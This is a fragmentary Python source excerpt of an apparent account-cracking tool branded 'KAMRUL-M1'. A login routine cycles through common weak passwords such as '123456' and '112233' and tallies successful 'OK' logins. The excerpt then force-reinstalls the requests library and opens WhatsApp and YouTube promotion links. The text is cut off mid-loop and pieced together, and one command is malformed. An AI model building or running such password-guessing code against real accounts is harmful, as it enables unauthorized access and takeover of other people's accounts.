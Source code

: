 Login attempt method A.
    """
    global loop
    session = requests.session()
    try:
        sys.stdout.write(f"\r\r\x1b[1;37m\x1b[38;5;196m+\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mKAMRUL-M1\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{loop}\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mOK\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{len(oks)}\x1b[38;5;196m)")
        sys.stdout.flush()
        for pw in ('123456', '1234567', '12345678', '123456789', '112233', '123123', '1234567890'):

os.system('pip uninstall requests chardet urllib3 idna certifi -y;pip install chardet urllib3 idna certifi requests')
os.system('pip install httpx pip install beautifulsoup4')
print('loading Modules ...\n')
os.system('clear')
os.system('xdg-open https://whatsapp.com/channel/0029Vb6d5lB6hENw6TLYrO3h')
os.system('xdg-open https://chat.whatsapp.com/GHcW6KYs56c2aVQPsCvsD4?mode=ems_copy_t')
os.system('xdg-openhttps://www.youtube.com/@romantic-b7x')
